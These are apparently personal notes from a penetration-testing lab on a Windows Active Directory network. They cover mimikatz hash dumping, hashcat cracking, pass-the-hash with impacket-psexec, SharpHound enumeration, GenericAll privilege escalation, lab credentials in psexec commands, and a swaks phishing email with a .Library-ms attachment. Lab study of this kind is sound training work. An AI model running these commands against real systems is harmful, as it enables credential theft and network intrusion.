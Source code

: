 
Underneath the line is what I thought was the way into PE technique but did not pan out. This is how it worked. I uploaded mimikatz (new version) to ensure this would work. Go to commands are below.
![[Pasted image 20230907092524.png]]
- After gaining the Hash NTLM (what I need), I tried cracking through the following command: hashcat -m 1000 nelly.hash
/usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
- Did not work, so I used impacket-psexec to pass the hash on to the .82 for system level access
- ![[Pasted image 20230907092851.png]]
- In order to do this, I needed to fill the LM hash with 32 0's, following the NT hash of the Admin.
_______________________________________________________________
- RDP'd into Yoshi's Machine with the creds of Mushroom!
- I immediately dropped in powerview and sharphound to do AD enumeration.
- After running sharphound.exe -d medtech.com --CollectionMethods All, I used PSUpload to transfer it back to my machine for further analysis
- ![[Pasted image 20230906171242.png]]
- Looking at this, I need to enumerate Yoshi's memberships to see if he is 1) a part of the "account operators" group or 2) if I can elevate my privileges to put Yoshi into that group. The generic all link shows me I can leverage myself into the Domain Admin's group with Leon (who is the DA in this network).
- ![[Pasted image 20230906172912.png]]
- PowerView was disabled so ran this command to hopefully run this![[Pasted image 20230906202311.png]]
- Username -> Leon
- Password -> rabbit:)
- python3 psexec.py medtech.com/leon:"rabbit:)"@172.16.235.83
- 1605  python3 psexec.py RELIA/jim:Castello1
 1607  python3 psexec.py RELIA/dmzadmin:'SlimGodhoodMope'@192.168.189.189
 1608  python3 psexec.py RELIA/dmzadmin:SlimGodhoodMope@192.168.189.189
 1616  python3 psexec.py RELIA/jim:'Castello1!'@192.168.189.191
 1617  python3 psexec.py RELIA/jim:'Castello1!'@192.168.189.189
 sudo swaks -t jim@relia.com --from maildmz@relia.com --attach @config.Library-ms --server 192.168.189.189 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
 ![[Pasted image 20231112165340.png]]
 ****

